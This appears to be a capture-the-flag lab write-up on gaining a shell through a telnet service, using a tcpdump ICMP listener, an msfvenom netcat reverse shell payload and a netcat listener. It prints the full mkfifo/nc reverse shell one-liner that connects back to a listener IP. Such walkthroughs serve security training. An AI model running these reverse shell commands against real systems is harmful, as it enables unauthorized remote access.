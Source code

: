 ```yaml
---
description: tcpdump listener
---
```


# 🔼 tools used

with the OpenVPN connection:

* `sudo tcpdump ip proto \\icmp -i tun0`

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>why tun0</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

in order to find if telnet is executing our commands on it we started a tcpdump listener on our local machine and then executed `.RUN ping [our local ip] -c 1`

***

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:\


`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

`-p` = payload

`lhost` = our local host IP address (this is your machine's IP address)

`lport` = the port to listen on (this is the port on your machine)

`R` = export the payload in raw format

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

#### Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvp [listening port]`

after that we copy and paste our msfvenom payload into the telnet session and run it as a command to get a shell.

`.RUN mkfifo /tmp/qdym; nc 10.13.65.129 44444 0</tmp/qdym | /bin/sh >/tmp/qdym 2>&1; rm /tmp/qdym` was run in the telnet session, then:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

